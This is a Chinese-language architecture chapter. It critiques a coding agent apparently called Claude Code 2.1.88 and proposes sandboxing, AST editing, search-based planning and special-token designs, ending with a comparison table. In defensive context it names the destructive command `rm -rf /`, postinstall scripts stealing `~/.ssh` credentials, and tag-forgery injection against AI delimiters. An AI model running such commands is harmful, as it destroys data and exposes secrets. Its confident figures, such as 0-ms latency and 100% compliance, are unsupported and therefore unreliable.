### 15.3 代码修改范式：从“纯文本唯一子串替换”演进为“AST 语义节点重构与容错 Patch”

* **2.1.88 历史局限**：
  * 精准文件编辑工具 `FileEditTool` 强制要求 `old_string` 100% 逐字符全等匹配。遇到跨平台换行符（`\r\n` vs `\n`）、空格缩进差异、或存在同名重复样板代码时，极易因“非唯一”或“字符失配”硬失败，导致 Agent 陷入反复重读文件的无谓死循环。
* **SOTA 演进方案**：
  * **AST 语法语义级重构（AST-Aware Semantic Transformation）**：引入结构化重写引擎（如 Tree-Sitter、GritQL 或 LibCST）。允许模型以语法节点定位（例如“将类 X 中方法 Y 的返回值类型改为 Z”），完全免疫空格、缩进和排版波动。
  * **语义模糊容错补丁（Fuzzy Semantic Patching）**：基于最长公共子序列（LCS）或语义语法锚点校准算法，在模型给出的上下文存在 1~2 个标点或缩进微小瑕疵时自动容错对齐并精准应用，使代码修改成功率从 ~85% 跃升至 98% 以上。

### 15.4 执行安全与沙箱：从“应用层正则/AST 防守”演进为“内核级微虚拟机与 eBPF/Landlock”

* **2.1.88 历史局限**：
  * 在 命令语法树安全审计引擎 `BashSecurityValidator` 中写了 2593 行代码防范 23 类绕过技巧。在用户态通过正则表达式与语法树来防范恶意命令永远是在和黑客玩“打地鼠”，冷门的反引号拼接或环境变量技巧随时可能击穿防线。
* **SOTA 演进方案**：
  * **默认瞬态轻量沙箱（MicroVM / WASI / Copy-on-Write Container）**：默认将所有执行置于毫秒级启动的隔离沙箱中（如 Firecracker、Wasmtime、只读挂载 Docker）。工作区基于写时复制（Copy-on-Write），就算模型执行了 `rm -rf /` 也只是破坏了一个数秒后即被丢弃的临时层，宿主物理环境绝对零污染。
  * **内核态强制访问控制（Linux Landlock & eBPF）**：在内核层原生使用 Landlock LSM 封死未授权目录的写权限与非法网络套接字，在内核层实现真正的零信任控制。

### 15.5 规划推演与自我修复：从“单向线性 Plan”演进为“蒙特卡洛树搜索（MCTS）与局部自愈”

* **2.1.88 历史局限**：
  * 长考推演引擎 `UltraplanEngine` 与 架构规划智能体 `PlanAgent` 主要生成静态线性的 Step 1 $\rightarrow$ Step 2 $\rightarrow$ Step 3。一旦中期执行遭遇非预期的编译崩溃，模型往往缺乏局部回溯与剪枝能力，容易在死胡同里无意义反复重试（Thrashing）。
* **SOTA 演进方案**：
  * **测试驱动的蒙特卡洛树搜索（MCTS / Tree-of-Thoughts Rollout）**：引入分支探索能力，Agent 在沙箱中对分支 A 与分支 B 并发推演尝试，结合编译通过率与测试用例 Reward 函数主动剪除死路，选择最优解执行。
  * **局部自愈式重规划（Local Repair Planning）**：失败时精准定位出错节点，仅针对该节点生成“局部修补补丁（Repair Plan）”，避免全局规划推倒重来。

### 15.6 开发者交互与调试生态：从“纯终端文本展示”演进为“双向调试器集成与交互式画布”

* **2.1.88 历史局限**：
  * Agent 排查复杂 Bug 只能在代码里插入 `console.log`，通过 Bash 观察输出，诊断效率低下；纯终端界面在展示大型多文件 Diff、前端网页渲染效果或复杂拓扑图时能力受限。
* **SOTA 演进方案**：
  * **语言调试适配协议集成（DAP - Debug Adapter Protocol）**：深度接入 DAP 协议，Agent 可自主打断点（Set Breakpoint）、单步跟踪（Step Over）、捕获调用栈中的实时局部变量（Inspect Frame），实现真正专业工程师级的确定性诊断排错。
  * **混合式实时画布（Hybrid TUI + Webview Live Canvas）**：终端保持轻量级流式进度，同时在浏览器/IDE 侧边唤起响应式实时画布，支持所见即所得地审查大型 Diff、直观拖拽审批架构图，并直接交互式预览前端页面。

### 15.7 知识库与代码智能检索：从“纯文本元数据匹配与规则启发”演进为“SCIP/Tree-sitter 代码依赖图谱、分层混合检索与 GraphRAG”

* **2.1.88 历史局限**：
  * **零内置代码图谱与向量索引**：完全依赖动态 `grep`、`glob`、`read` 和单一文件的基础 LSP 符号；在百万至千万行（10M+ LoC）单体仓库或微服务矩阵中，无法跨语言、跨模块推理全局依赖链路（如“定位所有消费特定 Kafka Topic 且依赖旧版鉴权中间件的接口实现”），只能由模型盲目多次猜词搜索，Token 消耗巨大且极易漏检。
  * **大模型元数据 RAG 延迟与成本偏高**：记忆检索器 `FindRelevantMemories` 虽规避了向量数据库的常驻显存开销，但每一次意图过滤都触发一次独立的 Sonnet `sideQuery`，平添 1~2 秒冷启动延迟；且仅依据文件 Frontmatter 粗粒度匹配，无法进行代码片段级（Snippet-level）精细检索。
  * **文档与代码脱节风险（Living Docs Drift）**：`MagicDocs` 依赖 LLM 在后处理中打补丁，当发生大规模重命名或签名重构时，静态 Markdown 易产生静默失效，缺少与代码 AST 符号的确定性双向绑定。
* **SOTA 演进方案**：
  * **SCIP / Tree-sitter 原生统一语义代码图谱（Unified Semantic Code Graph）**：引入 Sourcegraph 的 SCIP（Source Code Intelligence Protocol）与 Tree-sitter，在工程初始化及文件保存时进行增量 AST 分析，在本地嵌入式数据库（如 Kùzu / DuckDB）中构建符号有向图（Definition, Reference, Implementation, Call Hierarchy）。Agent 以**微秒级（Microsecond）确定性图查询**替代漫长盲扫。
  * **分层混合检索（Hybrid Lexical-Dense RAG + GraphRAG）**：
    * **Lexical (BM25/SPLADE)**：精准命中全局唯一的结构体名、接口名与错误码；
    * **Dense Vector (Code-specific Embeddings)**：通过 Voyage-Code / StarCoder 嵌入模型进行自然语言意图对齐（如“查找重试与熔断机制”）；
    * **GraphRAG 子图投影**：将命中节点及其 1~2 度拓扑调用链打包成结构化上下文切片，兼顾宏观架构与局部实现。
  * **三层自愈型认知记忆系统（Three-Tier Dynamic Agentic Memory）**：
    * 演进为 **Working Memory**（实时工作台）、**Episodic Memory**（带时间衰减因子的会话执行轨迹）与 **Semantic Knowledge Graph**（长期事实知识）；
    * **Git Diff 反向代码校验与墓碑淘汰机制（Code-verified Memory Invalidation）**：记忆库中的技术条目绑定代码 AST 符号哈希。每次 Git Commit 时，系统自动验证记忆条目的有效性；一旦对应函数或逻辑被重构废弃，自动打上墓碑（Tombstone）或触发局部自愈更新，彻底杜绝过时记忆毒害模型推理。

### 15.8 提示词工程：从“人工打磨规则与静态分界”演进为“DSPy 自动编译调优与硬件级 KV-Cache 固化（Prefill Pinning）”

* **2.1.88 历史局限**：
  * 系统依赖 900+ 行人工编写维护的纯文本系统提示词，随着模型小版本微调（如 Capybara 系列演进），提示词的脆弱性显现，需要人工频繁加入对冲补丁（如对抗假阳性、对抗过度工程）；
  * 静态动静分界线虽然保护了通用前缀，但依然依赖人工对每个 Section 打标 `DANGEROUS_`；
  * 缺乏针对复杂输出格式（JSON/XML）的底层约束，仍需在 Prompt 中通过长篇自然语言苦劝模型遵循规范。
* **SOTA 演进方案**：
  * **DSPy / MIPROv2 编译期自动提示词优化**：通过输入输出 Signatures 声明意图，由自动编译算法在测试验证集上运行贝叶斯搜索与反思优化，动态合成最优 Few-shot 与指令，全面替代人工试错撰写；
  * **显存级 KV-Cache 预填充固化（KV-Cache Prefill Pinning）**：借助 RadixAttention / PagedAttention，在推理引擎启动时将核心系统规范与工具声明直接预热固化在 GPU HBM 显存池中，使 Agent 会话实现真正 **0 毫秒首字延迟（0-ms TTFT）**，彻底免疫上层文本组装差异；
  * **文法引导结构化约束解码（Grammar-Guided Constrained Decoding via Outlines / SGLang）**：放弃在 Prompt 中通过自然语言长篇大论约束结构，直接在模型推理采样阶段通过 Logit 掩码（Logit Masking）限制生成合法 Token，从数学机制上实现 100% 格式合规并省去 30% 说明性 Prompt Token。

### 15.9 工作流编排：从“双轨单循环与轮询任务”演进为“Durable Execution 持久化工作流、动态有向无环图（DAG）与事务性快照回滚”

* **2.1.88 历史局限**：
  * 编排逻辑完全绑定在单个 Node.js 内存事件循环与简单的循环迭代中。一旦进程遭遇 OOM、网络中断或宿主关机，执行中途的庞大任务状态图彻底丢失，无法断点热恢复；
  * 缺乏事务性快照与回滚机制。当多步骤重构在第 4 个文件出错时，前 3 个已落盘的脏文件无法自动撤回，留下破损半死的工作区；
  * 工具调用批处理仅区分为“连续读 vs 单个写”，无法动态构建复杂的跨文件依赖有向无环图（DAG）。
* **SOTA 演进方案**：
  * **持久化确定性执行引擎（Durable Execution Engine，如 Temporal / Restate / LangGraph 模式）**：每个决策步骤、工具调用结果均通过 Event Sourcing 持久化并打上幂等键（Idempotency Key）。任何时刻崩溃，进程重启即可零开销从上一断点继续运行；
  * **动态有向无环图（Dynamic DAG）与 Map-Reduce 并行编排**：模型可根据需求动态生成并行分支 DAG（例如并发重构 5 个独立模块），并在合流点执行自动化依赖分析与冲突检测；
  * **工作区写时复制事务快照（CoW Workspace Transaction & Atomic Rollback）**：复杂工作流执行前自动生成 OverlayFS / Git 瞬态快照，若中途编译校验失败，单步原子回滚，彻底根除半死代码库问题。

### 15.10 评测治具与基准测试（Harness）：从“文件哈希 VCR”演进为“微虚拟机快照复原、SWE-bench 自动化验证矩阵与 LLM-as-a-Judge 语义裁决”

* **2.1.88 历史局限**：
  * 基于纯文本请求哈希的 VCR 过于僵硬脆弱。底层模型哪怕有万分之一的概率发生采样微变，或者系统提示词仅仅更新了一个标点符号，成百上千个 Fixture 文件哈希就会全量失效，迫使开发团队投入巨大人力重新录制；
  * 缺乏针对真实软件工程环境（如动态构建容器、启动微服务、运行完整测试用例）的自适应环境治具；
  * 评测验证主要依赖布尔式状态判断，缺乏“LLM-as-a-Judge”多维度自动化质量打分器。
* **SOTA 演进方案**：
  * **微虚拟机环境级快照治具（MicroVM / Firecracker Snapshot Harness）**：不仅录制网络请求，而是对运行 Agent 的宿主虚拟机执行毫秒级内存与磁盘全量快照，能够回溯重放任意一刻的物理执行状态；
  * **标准 SWE-bench 验证级自动化测试矩阵**：内置容器化的自动化构建、测试探针与 Patch 检验流水线，在无头驱动下自动化执行数百个真实 Github Issue 修复任务并打分；
  * **双重语义仲裁与提示词变异测试（Dual-Judged Semantic Evaluation & Mutation Testing）**：采用 AST 等价性比对结合专业评估大模型（LLM-as-a-Judge），对生成的代码实现语义级柔性打分；并通过随机对抗性变异（Prompt Mutation）评估 Agent 工作流的鲁棒性边界。

### 15.11 测试期计算扩展：从“启发式 ultrathink 关键词触发”演进为“MCTS 搜索树、PRM 过程奖励模型与自适应思考扩展（Test-Time Compute Scaling）”

* **2.1.88 历史局限**：
  * **单流自回归与简单关键词拉满**：在 思考链管理模块 `ThinkingController` 中，测试期算力分配主要依赖字符串启发式搜索（如用户输入含 `ultrathink` 时临时将 `budgetTokens` 拉满至 32k/128k），或依赖静态配置。思考链本质上仍是**单流自回归生成（Single-Stream Autoregressive CoT）**；
  * **缺乏中途验证与分支修正**：一旦模型在长达数千 Token 的内部思考中陷入逻辑盲区或死循环，由于没有外部执行反馈闭环，模型无法“意识到”错误并实施局部回退（Backtracking），只能一条道走到黑，极大地浪费了计算预算；
  * **非自适应算力浪费**：简单任务（如修改拼写）与顶级架构任务（如跨 50 个微服务解耦）缺乏精准的动态难度感知器，常导致“杀鸡用牛刀”式的思考延迟，或困难任务思考预算不足导致的智力降级。
* **SOTA 演进方案**：
  * **测试期思考搜索树（Test-Time Search-on-Thoughts via MCTS）**：对照 OpenAI o1/o3、Claude 3.7 Hybrid Reasoning 与 DeepSeek-R1，将思考链从线性文本流扩展为拓扑搜索树。Agent 在思考过程中可分化出多条推演假设，并在分支末梢发起瞬态沙箱模拟（如预编译、语法诊断），依据测试反馈引导回溯；
  * **过程奖励模型（PRM - Process Reward Model）与动态剪枝**：训练专门的代码过程奖励模型（Code-PRM），对思考链中的每一个逻辑推理步骤进行价值打分（Step-level Value Evaluation）。当某条推理路径的 Reward 低于阈值时立即实施**早期剪枝（Early Pruning）**，将宝贵的计算 Token 倾斜给最优前沿节点；
  * **自适应思考深度决策器（Dynamic Effort Arbiter）**：基于工程上下文规模、历史修复失败率与用户意图语义分类，自动裁决最适 Effort 等级，在 0 思考的极速响应（Fast Path）与 64k Token 深度试错推演（Deep Exploration Path）之间实现动态无缝伸缩。

### 15.12 浏览器与环境交互：从“基于 Native Host 的受控 Chrome 插件”演进为“原生视觉接管（Computer Use）、无头渲染引擎与 CDP 深度插桩”

* **2.1.88 历史局限**：
  * **对物理 Chrome 扩展强耦合**：在 Chrome 原生宿主通信模块 `ChromeNativeHost` 中，前端交互完全依赖宿主机运行中的 Google Chrome 且必须手动安装扩展。在无桌面环境的远程云服务器、CI/CD 容器流水线或只读 Linux 终端中，该能力彻底失效；
  * **DOM 树与全页截屏的浅层感知**：仅能通过插件获取序列化后的静态 DOM 树和整页截图，缺乏对 Canvas 复杂图表、WebGL 渲染、富文本编辑器（Monaco/ProseMirror）内部隐藏状态的穿透感知能力；
  * **单向被动读取与缺乏深层网络拦截**：难以主动拦截并修改底层 HTTP 请求/响应（Mocking），无法自动化排查跨域 CORS、Cookie/Token 认证死锁及微前端资源加载瀑布流。
* **SOTA 演进方案**：
  * **无头容器级 Chromium 集群与 CDP 深度插桩（Headless Browser Harness via CDP）**：对照 Devin 与 OpenAI Operator，内置毫秒级启动的隔离无头浏览器沙箱。通过 Chrome DevTools Protocol (CDP) 深度接管浏览器内核，实时双向监听网络流量 HAR、内存堆快照（Heap Profiler）、DOM 突变观察器（MutationObserver）与 Console 异常栈；
  * **原生多模态视觉接管（OS-Level / Canvas Computer Use）**：基于 Claude 3.5/3.7 原生 Computer Use 视觉基座模型，摆脱对 DOM 标签与 Accessibility Tree 的机械依赖。通过自适应屏幕视觉网格与键鼠轨迹平滑模拟，直接在 Canvas 画布、低代码编辑器和 3D WebGL 场景中进行高精度交互与端到端回归校验；
  * **前后端全链路交互联调闭环（End-to-End Runtime Loop）**：Agent 在修改前端组件代码后，自动在后台浏览器中热重载页面，触发交互事件并抓取控制台是否有 Warning/Error，形成“改代码 $\rightarrow$ 浏览器热更 $\rightarrow$ 视觉与控制台自检 $\rightarrow$ 自动修补”的全自动自愈闭环。

### 15.13 技能生态与自进化：从“静态 SKILL.md 模板与半自动 Skillify”演进为“自省强化学习、动态能力编译与自治技能网络（Self-Evolving Agentic Networks）”

* **2.1.88 历史局限**：
  * **人工介入的半自动提炼**：在 技能固化提炼引擎 `SkillifyEngine` 中，技能提炼强依赖 `AskUserQuestionTool` 向用户反复询问意图、名称和示例，属于人机交互式的模板生成器，无法在无人值守的后台任务中自主进化；
  * **纯文本 Markdown 缺乏严格契约**：技能仅以自然语言写在 `SKILL.md` 中，缺乏强类型的输入输出 Schema 校验，容易被模型在调用时自由发挥导致非确定性崩溃；
  * **扁平孤立且无依赖拓扑**：技能之间彼此孤立，没有动态依赖图谱（Dependency DAG），当团队积攒了上百个业务技能时，全量暴露给模型会导致 Prompt 严重膨胀并引发工具选择的“注意力迷航”。
* **SOTA 演进方案**：
  * **自治技能经验重放与自省进化（Autonomous Skill Synthesis via Experience Replay）**：对照 AutoGen、MetaGPT 与 Nous Hermes Skill-Evo 体系，智能体在完成每一次复杂的 Debug 或多步骤部署任务后，后台自动执行离线反思。系统分析高频操作路径与错误回溯点，自主归纳并提炼出可泛化的代码工具与操作范式，无需人类介入即可自我扩充技能库；
  * **微插件动态编译与沙箱契约验证（Dynamic Micro-Plugin Compilation & Sandbox Test）**：将提炼出的技能自动编译为安全的 WASM 或 TypeScript 微应用，附带严格的 JSON Schema 与自动生成的单元测试用例。技能在投入生产调用前必须在沙箱中测试全通，确保确定性；
  * **分层技能注册网络与按需意图路由（Hierarchical Skill Graph & On-Demand Routing）**：建立层次化技能网络，仅向模型暴露顶层领域抽象；当模型产生特定子意图时，按需动态加载关联的深层技能切片，实现支持数千个企业级技能的高并发无缝协作。

### 15.14 多模态交互范式：从“按键推流 STT 语音转文本”演进为“全双工实时端到端音频多模态（Native Audio Omni-Modal）”

* **2.1.88 历史局限**：
  * **级联式语音链路的语义与时延损耗**：在 终端语音流输入管道 `VoiceStreamPipeline` 中，语音系统采用经典的四级级联架构：麦克风采样 $\rightarrow$ 本地 SoX/NAPI 编码 $\rightarrow$ WebSocket 推流至 Deepgram STT 转为纯文本 $\rightarrow$ 驱动主模型推理。这种分段式架构导致端到端响应延迟高达 1.5~3 秒；
  * **声学元信息完全丢失**：经过 STT 降维为扁平纯文本后，人类口语中极其关键的声调、重音、犹豫、反讽语气以及周围的环境音全部丢失，模型无法根据音调起伏感知开发者的紧急程度与心理状态；
  * **半双工 Hold-to-Talk 无法实时打断**：用户必须一直按住特定按键录音，松手后等待；当 Agent 在终端流式吐字或执行命令时，用户无法直接开口打断（Barge-In），违背了自然人机对话的直觉习惯。
* **SOTA 演进方案**：
  * **端到端原生全双工音频引擎（Native End-to-End Omni-Modal Engine）**：对照 GPT-4o Realtime API 与 Gemini Live Audio，音频波形直接作为连续 Token 输入多模态大模型，彻底消除 STT 文本转换的级联损失，将端到端对话延迟压低至 200~300 毫秒（达到人类自然对话响应极限）；
  * **毫秒级神经 VAD 与实时双向打断（Acoustic Neural VAD & Instant Barge-In）**：采用低算力本地神经语音活动检测（Neural VAD），用户在终端无需敲击任何按键，直接开口说话即可实现毫秒级“声控打断”。当 Agent 正在执行耗时较长的 Bash 编译或生成冗长输出时，开发者一声“停一下，换个方案”，Agent 立即原位挂起并响应新意图；
  * **声学情境推理（Acoustic Context Reasoning）**：模型能够从开发者的语速、叹气或停顿中感知其疑惑点，主动提供针对性的背景解释或精炼代码，实现真正有温度的“智能结对编程专家（AI Pair Programmer）”。

### 15.15 模型格式与对齐层：从“应用层人工 XML 协议”演进为“微调专有特殊标记（Special Tokens）与编译级文法约束”

* **2.1.88 历史局限**：
  * **纯字符串层面的标签脆弱性**：在 结构化 XML 标记协议 `XmlTaggingProtocol` 中，Anthropic 采用纯文本 XML 字符串（如 `<bash-input>`, `<thinking>`, `<task-notification>`）划定语义边界。由于这些标签由普通的自然语言 Token 拼接而成，在自回归采样时天然存在被用户代码或工具输出中的字面字符串“意外闭合”或“伪造注入”的潜在风险；
  * **长文本上下文中的格式幻觉与畸变**：随着会话历史增长至 100k+ Token，模型在生成复杂嵌套结构时存在概率性的标签漏闭合、非法属性字符或首尾不配对现象，迫使客户端编写冗长的正则表达式与容错解析器（如 XML容错解析组件中的 `stripXml`、`sanitizeXmlText`）；
  * **上下文 Token 的无谓浪费**：人工编写的成对 XML 标签在整个长推理生命周期中占用了大量宝贵的上下文和生成带宽。
* **SOTA 演进方案**：
  * **词表级专有控制标记硬对齐（Vocabulary-Level Special Tokens Alignment）**：对照 Nous Hermes / OpenChat 的 ChatML 规范（如 `<|im_start|>system\n...<|im_end|>`、`<|start_header_id|>ipython<|end_header_id|>`），在模型预训练与 RL 对齐阶段将核心控制边界固化为词表（Tokenizer Vocabulary）中的保留专用 Token。专有 Token 在计算注意力与位置编码时享有特殊的不可伪造属性，即便用户代码中打印了字面量 `<bash-input>`，也会被编码为普通文本 Token，从底层数学逻辑上绝对杜绝提示词逃逸与标签混淆；
  * **编译期文法引导结构化解码（Grammar-Guided Constrained Decoding via Outlines / SGLang / llama.cpp GBNF）**：摒弃通过自然语言苦劝模型遵循格式的做法，直接在模型推理引擎的 Logits 生成阶段挂载有限状态自动机（FSM）。基于工具 Schema 预先编译出上下文无关文法（CFG），在每一步采样时仅保留符合语法的 Token Logits 掩码（Logits Masking），在数学层面实现 100% 格式合规且彻底免除应用层的清洗校验开销。

### 15.16 IDE 与开发者生态：从“外部轮询/反向 RPC 桥接”演进为“深度内核集成与影子工作区（Shadow Workspace / In-Process Flow）”

* **2.1.88 历史局限**：
  * **松散跨进程通信与轮询开销**：在 IDE 穿透与反向 RPC 模块 `IDEBridgeRpc` 中，Claude Code 是一个运行在独立终端里的外部 Node.js 进程。它通过寻找宿主 IDE 祖先进程 PID，或读取 `~/.claude/ide/*.json` 注册的本地管道进行通信。跨进程 JSON-RPC 容易受到进程休眠、网络代理与临时文件清理的干扰；
  * **盲视未保存的内存脏缓冲区（Dirty Buffer Blindness）**：终端智能体只能通过磁盘文件 I/O 感知代码。开发者在 IDE 编辑器中正在键入但尚未保存（Unsaved / Dirty）的代码、未落盘的草稿文件，对外部终端智能体完全不可见；
  * **全量落盘引发的文件系统震荡（File Watcher Storms）**：智能体每次调用写工具，必须先写入宿主物理磁盘。在开启了大型 Language Server（如 TypeScript tsserver、Rust Analyzer、Go gopls）的项目中，频繁的文件写入会触发 IDE 大规模的文件监听重编译事件，导致机器风扇狂转、IDE 界面瞬时卡顿。
* **SOTA 演进方案**：
  * **进程内深度集成与语言服务器共生（In-Process Native Integration & LSP Symbiosis）**：对照 Cursor、Windsurf Cascade 与 VSCode Copilot Workspace，将智能体核心事件循环直接作为语言服务器（LSP）或扩展插件内置于 IDE 进程空间。智能体可零开销直接读取内存中实时的 `TextDocument` 抽象，实时感知光标位置、语法高亮树及多光标选区；
  * **后台影子工作区与虚拟内存缓冲区（Shadow Workspace & Virtual In-Memory Buffers）**：引入“影子工作区”架构，智能体在后台独立的虚拟内存树上进行代码修改、重构推演与增量编译测试，完全不触碰开发者正在编辑的物理磁盘。只有当一整套修改方案通过自动化语义校验后，才通过 IDE 的 Diff 审查机制一键合并进物理文件；
  * **原生三向合并与行内 Ghost Text 流式共驾（3-Way Inline Merge & Real-time Ghost Streams）**：智能体生成的代码不再以冰冷的大块终端文本形式呈现，而是像 GitHub Copilot / Cursor Tab 一样直接以灰度行内虚影（Ghost Text）或分栏差异（Inline Multi-Diff）形式直接投影在编辑器视图中，开发者通过 Tab 即可单步接受、局部修改或拒绝，实现真正意义上的人机一体化敏捷结对。

---

### 15.17 本机文件 I/O 与工作区状态同步：从“物理文件原子覆盖与存根校验”演进为“虚拟文件系统（VFS）、CRDT 缓冲区与零拷贝快照”

* **2.1.88 历史局限**：
  * **直接触碰宿主物理文件引发震荡**：在 精准文件编辑工具 `FileEditTool` 与 文件原子写入工具 `FileWriteTool` 中，每一次代码修改都会落盘到真实磁盘。在大型代码库中，这会频繁触发 IDE、编译器和 Webpack/Vite 的文件监听器（File Watchers），导致 CPU 风扇狂转、热重载风暴与高频磁盘 I/O 阻塞；
  * **跨平台文件锁竞争与脏读风险**：在 Windows 和某些受限网络挂载卷（NFS/Samba）上，原子重命名可能因句柄被占用而失败；且 Agent 与开发者并发保存时，即使有 `mtime` 检查，仍存在数毫秒的竞态窗口。
* **SOTA 演进方案**：
  * **虚拟内存文件系统（Virtual File System - VFS）**：对照 Cursor、Windsurf 与 Monaco 内存模型，智能体的所有探索性修改、文件生成与代码重构首先在内存 VFS 层中执行。多步骤重构在内存中完成语法解析与类型检查全通后，才向物理磁盘发起批量合并；
  * **CRDT 无锁协作编辑缓冲区（CRDT Collaborative Buffers）**：引入 Yjs / Automerge CRDT 文本数据结构，将智能体视为一个并发的协作者。智能体与开发者可在同一文件中并发敲代码，算法在字符级数学上保证最终一致性，彻底根除“幽灵覆盖”与“文件被占用写入失败”；
  * **写时复制工作区零拷贝快照（CoW Zero-Copy Snapshots via OverlayFS / Btrfs / APFS）**：利用现代操作系统底层的写时复制特性，微秒级派生出工作区瞬态快照。即便智能体执行极端破坏性测试，也能在 1 毫秒内瞬间回退，免除传统备份快照的巨大磁盘拷贝开销。

### 15.18 个人记忆与多租户身份治理：从“单机本地 Markdown 档案与静态 DeviceID”演进为“云端加密认知画像、跨设备同步与零信任身份网格（Zero-Trust Identity Mesh）”

* **2.1.88 历史局限**：
  * **记忆碎片化困于本地单机**：在 全局配置管理器 `GlobalConfigManager` 中，用户的偏好与教训保存在本地 `~/.claude/`。当开发者在办公室台式机、出差笔记本与云端远程开发机（DevBox）之间切换时，记忆无法无缝漫游，新机器必须从零开始磨合；
  * **静态设备指纹与粗粒度授权**：基于静态随机数生成的 `deviceId` 与简单的 OAuth 组织绑定，缺乏细粒度的基于角色的访问控制（RBAC）与操作级可审计性（Audit Trail）。
* **SOTA 演进方案**：
  * **端到端加密云原生认知画像（E2EE Cloud Persona Mesh）**：对照现代云端协同 Agent 架构，将用户的全局技术偏好、历史会话教训与团队微调记忆进行零知识端到端加密（E2EE），安全同步至云端。开发者在任何终端输入个人密钥，即可瞬时激活完全一致的“专属结对编程副驾驶”；
  * **多角色动态人格（Dynamic Contextual Personas）**：根据当前所处工程（前端 Vue、后端 Rust、数据分析 Python），自动切换对应的 Persona 认知模型，从底层微调参数与专用知识库中动态装配能力，免去手动维护长篇 Prompt；
  * **企业级零信任身份网格（SPIFFE / OIDC Zero-Trust Identity）**：在企业复杂多租户环境中，为每一次 Agent 派生的子进程签发短期自签名的 X.509 SVID / JWT 凭证，每一次代码推送、工具调用与沙箱执行均携带密码学不可抵赖签名，完全满足 SOC2 与金融级安全合规。

### 15.19 依赖管理与代码运行环境：从“宿主进程包管理器直接安装与人工授权”演进为“声明式沙箱环境（Nix / Devcontainer / WASM）、确定性依赖锁与供应链漏洞动态热修”

* **2.1.88 历史局限**：
  * **宿主环境污染与“在我机器上能跑”陷阱**：在 环境与包管理器探测器 `EnvDetector` 与 命令权限评估门禁 `BashPermissionsGate` 中，安装第三方包直接在宿主机的全局或工作区环境下执行，严重依赖宿主预装的 Node/Python/Rust 版本；容易因全局版本冲突或隐式环境依赖破坏开发者原有的系统配置；
  * **供应链脚本投毒风险偏高**：虽然设置了权限弹窗，但一旦人类点击“允许”，恶意包的 `postinstall` 脚本仍能直接读取宿主机器的环境变量与 SSH 密钥。
* **SOTA 演进方案**：
  * **声明式不可变环境构建（Nix-Flakes / OCI Devcontainer / WASM Sandbox）**：对照 Devin、Replit Agent 与 Daytona 架构，将代码执行与依赖安装彻底放入基于 Nix 或 Docker 的瞬态声明式沙箱中。Agent 自主安装依赖时，底层通过确定性的 Nix 导图或容器层完成组装，**宿主机器保持 100% 绝对纯净，彻底杜绝环境污染**；
  * **细粒度网络与挂载隔离（Ephemeral Network & Read-Only Secrets）**：安装第三方依赖时，沙箱网络仅允许访问经证书校验的官方 Package Registry，阻断非标准外连；宿主机上的敏感私钥（如 `~/.ssh`、`~/.aws`）被内核级隔离剥离，即使恶意包执行了 `postinstall` 勒索脚本也无法窃取任何凭据；
  * **供应链 CVE 漏洞动态审计与版本自愈（Live CVE Scanning & Safe Patching）**：依赖解析时自动联动 OSV / GitHub Advisory 数据库，检测到引入的库存在已知漏洞时，自动建议并切换到安全的补丁版本，在代码编写阶段就将供应链风险消灭在萌芽状态。

---

### 15.20 总结对比矩阵与演进收益

| 架构维度 | Claude Code 2.1.88 状态 | 2026 前沿 SOTA 最佳实践 | 升级带来的跃迁收益 |
| :--- | :--- | :--- | :--- |
| **本机文件 I/O 与工作区同步** | 物理磁盘直接落盘 + mtime 时间戳防冲突 | **内存级虚拟文件系统 (VFS) + CRDT 协同编辑 + CoW 零拷贝快照** | 消除编译器与打包器监听风暴；多 Agent/人机并发编辑零冲突；秒级撤销任意破坏性改动。 |
| **个人记忆与多租户身份** | 单机 ~/.claude/ 本地文本 + 静态 Device ID | **端到端加密云原生认知画像 (E2EE) + 动态 Persona + SPIFFE 零信任网格** | 实现跨笔记本、远程机无缝漫游副驾驶记忆；企业级精细审计与不可伪造身份凭证。 |
| **依赖管理与运行环境** | 宿主本地包管理器直接执行 + 权限弹窗 | **声明式不可变沙箱 (Nix / Devcontainer) + 细粒度网络隔离 + CVE 自动热修** | 宿主机零环境污染；彻底阻断第三方包 postinstall 供应链恶意盗密；代码编写期规避高危漏洞。 |
| **测试期计算与思考链** | 静态单模型或基于 `ultrathink` 关键词临时拉满 | **MCTS 搜索树 + 过程奖励模型 (PRM) + 动态 Effort 自适应** | 从单流自回归升级为多分支探索推演；早期剪枝节约 40% 无效 Token，高难任务成功率提升 25%+。 |
| **浏览器与环境交互** | 强依赖物理 Chrome 插件 + 本地 Native Messaging | **无头 Chromium 容器集群 + CDP 深度插桩 + 原生视觉 Computer Use** | 脱离本地物理浏览器依赖，支持云端/CI 自动化运行；实现前后端联动与全自动视觉回归闭环。 |
| **技能生态与自进化** | 静态内置技能 + 交互式问答半自动 `skillify` 提取 | **自治离线经验重放 (Experience Replay) + 动态沙箱微插件 + 技能 DAG 网络** | 无需人工介入，从日常修复轨迹中自进化生成可复用技能；支持数千技能按需拓扑路由。 |
| **多模态交互范式** | Hold-to-Talk 终端按键捕获 + STT 级联串联 | **全双工端到端实时音频 (Native Omni-Modal) + 神经 VAD 声控打断** | 端到端对话延迟从 2s 降至 200ms；支持任意时刻声控实时打断，保留丰富声学情境理解。 |
| **模型格式与对齐层** | 应用层纯文本 XML 拼接 (`<bash-input>`, `<thinking>`) | **词表级专有控制标记 (Special Tokens) + 编译期文法掩码解码 (Outlines/GBNF)** | 彻底根除提示词逃逸与标签伪造劫持；100% 数学级格式合规，免除应用层容错清洗开销。 |
| **IDE 深度穿透共生** | 外部终端独立进程 + 祖先 PID 反向管道呼叫 | **编辑器内核进程内共生 + 后台影子工作区 (Shadow Workspace) + 行内实时 Ghost 流** | 实时感知未保存内存代码与光标选区；消除磁盘文件震荡，带来毫秒级行内无缝共驾体验。 |
| **提示词工程** | 静态 900+ 行人工打磨 + 动静分界线 | **DSPy 自动编译调优 + 显存 KV-Cache 固化 + 约束解码** | 0-ms TTFT 首字响应，提示词泛化准确率提升 15%+，消除格式漂移。 |
| **工作流编排** | 双轨事件循环 (读并发+写串行) + 轮询 | **Durable Execution 持久化工作流 + 动态 DAG + 事务快照** | 进程崩溃毫秒级断点续跑，支持动态分支并发，失败时秒级原子回滚。 |
| **评测治具 (Harness)** | 纯文本输入哈希 VCR 录制回放 | **MicroVM 快照重放 + SWE-bench 矩阵 + LLM-as-Judge 语义仲裁** | 摆脱脆弱的文件哈希失配，支持完整运行环境回溯与自动化真实基准打分。 |
| **知识库与代码检索** | 纯文本 4 维元数据 + LLM 筛选 (findRelevantMemories) + 实时 Grep/LSP | **SCIP/Tree-sitter 语义代码图谱 + GraphRAG 混合检索 + 动态衰减三层认知记忆** | 秒级解析千万行代码依赖拓扑，避免磁盘盲扫与知识幻觉，跨会话记忆具备代码语义自愈能力。 |
